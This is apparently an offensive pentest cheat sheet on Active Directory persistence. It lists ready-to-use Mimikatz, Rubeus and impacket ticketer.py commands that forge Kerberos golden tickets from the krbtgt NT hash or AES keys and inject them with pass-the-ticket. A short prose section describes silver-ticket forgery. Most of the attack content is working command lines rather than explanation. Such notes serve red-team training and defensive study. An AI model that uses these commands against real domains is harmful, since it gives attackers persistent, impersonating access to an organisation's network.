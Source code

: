 * * *

# Persistence
## GoldTicket 
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden 
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket

### Mimikatz
```powershell
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

### Rubeus
```
.\Rubeus.exe ptt /ticket:ticket.kirbi
```

### Remote
```
PS > import-module .\PowerView.ps1
PS > Get-DomainSID
```

```bash
# Create the golden ticket (with an RC4 key, i.e. NT hash)
$ ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
$ ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser

# Set the ticket for impacket use
$ export KRB5CCNAME=<TGS_ccache_file>
```

* * *

## SilverTicket
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket

The Silver Ticket attack involves the exploitation of service tickets in Active Directory (AD) environments. This method relies on acquiring the NTLM hash of a service account, such as a computer account, to forge a Ticket Granting Service (TGS) ticket. With this forged ticket, an attacker can access specific services on the network, impersonating any user, typically aiming for administrative privileges. It's emphasized that using AES keys for forging tickets is more secure and less detectable.
